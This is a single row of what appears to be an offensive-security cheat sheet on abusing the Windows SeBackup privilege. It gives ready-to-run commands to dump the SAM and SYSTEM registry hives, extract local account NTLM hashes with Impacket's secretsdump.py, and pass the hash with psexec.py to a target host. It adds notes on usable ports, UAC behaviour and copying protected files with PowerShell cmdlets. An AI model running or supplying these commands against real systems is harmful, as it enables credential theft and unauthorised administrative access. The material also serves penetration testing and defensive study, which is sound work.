 | Privilege | Impact | Tool | Execution path | Remarks |
| --- | --- | --- | --- | --- |
|`SeBackup`| ***Admin*** | 3rd party tool <br><br> Sensitive files access (in combination with `SeRestore`): <br> ***Built-in commands*** | 1. Enable the privilege in the token <br><br> 2. Export the `HKLM\SAM` and `HKLM\SYSTEM` registry hives:<br> `cmd /c "reg save HKLM\SAM SAM & reg save HKLM\SYSTEM SYSTEM"` <br><br> 3. Eventually transfer the exported hives on a controlled computer <br><br> 4. Extract the local accounts hashes from the export `SAM` hive. For example using `Impacket`'s `secretsdump.py` Python script: <br> `secretsdump.py -sam SAM -system SYSTEM LOCAL` <br><br> 5. Authenticate as the local built-in `Administrator`, or another member of the local `Administrators` group, using its `NTLM` hash (Pass-the-Hash). For example using `Impacket`'s `psexec.py` Python script: <br> `psexec.py -hashes ":<ADMINISTRATOR_NTLM>" <Administrator>@<TARGET_IP>` <br><br> Alternatively, can be used to read sensitive files with `robocopy /b` | - `User Account Control` may prevent Pass-the-Hash authentications with the local accounts but by default the built-in `Administrator` (RID 500) account is not concerned (as `FilterAdministratorToken` is disabled by default). <br><br> - Pass-the-Hash authentications can be attempted over (at least) the following services: `SMB` (port TCP 445), `SMB` over `NetBIOS` (port TCP 139), `WinRM` (ports TCP 5985 / 5986), or `RDP` if the `Restricted Admin` feature is enabled server side (port TCP 3389). <br><br> - Access to sensitive files may be more interesting if you can read `%WINDIR%\MEMORY.DMP`. <br><br> - `SeBackupPrivilege` is not helpful when it comes to open and write to files as it may only be used to copy files. <br><br> - Robocopy requires both `SeBackup` and `SeRestore` to work with the `/b` parameter (which are both granted to members of the `Backup Operators` group by default). <br> Instead, [`Copy-FileSeBackupPrivilege`](https://github.com/giuliano108/SeBackupPrivilege) can be used to backup files through a process with only the `SeBackup` privilege in its token: <br> `Import-Module .\SeBackupPrivilegeUtils.dll` <br> `Import-Module .\SeBackupPrivilegeCmdLets.dll` <br> `Set-SeBackupPrivilege` <br> `Copy-FileSeBackupPrivilege <SOURCE_FILE> <DEST_FILE>` |
